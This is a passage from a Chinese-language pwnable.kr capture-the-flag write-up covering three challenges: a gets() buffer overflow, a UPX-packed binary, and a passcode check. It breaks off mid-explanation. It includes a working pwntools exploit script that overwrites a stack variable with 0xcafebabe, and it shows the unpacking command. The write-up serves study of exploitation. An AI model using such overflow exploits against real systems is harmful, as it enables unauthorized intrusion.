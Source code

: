 ## 0x03 bof

最经典的gets溢出覆盖

在ida 里看参数a1和buf的差距，溢出覆盖就行了

```
#coding=utf-8
from pwn import *

io=remote("pwnable.kr",9000)
payload='a'*(0x2c+0x8)+p32(0xcafebabe)
io.sendline(payload)
io.interactive()
```

## 0x04 flag

直接下载下来用ida pro分析发现只有三个函数，而且还有一大堆shellcode在里面。。。。。

后来意识到可能加了壳，用

```
upx -d flag
```

脱壳后就可以正常ida pro逆向了

可以直接在里面找到flag

## 0x05 passcode

放到ida里分析

```cpp
  int v1; // [esp+18h] [ebp-10h]
  int v2; // [esp+1Ch] [ebp-Ch]

  printf("enter passcode1 : ");
  __isoc99_scanf("%d");
  fflush(stdin);
  printf("enter passcode2 : ");
  __isoc99_scanf("%d");
  puts("checking...");
  if ( v1 != 338150 || v2 != 13371337 )
  {
    puts("Login Failed!");
    exit(0);
  }
```

只要让

```
v1 == 338150 && v2 == 13371337
```
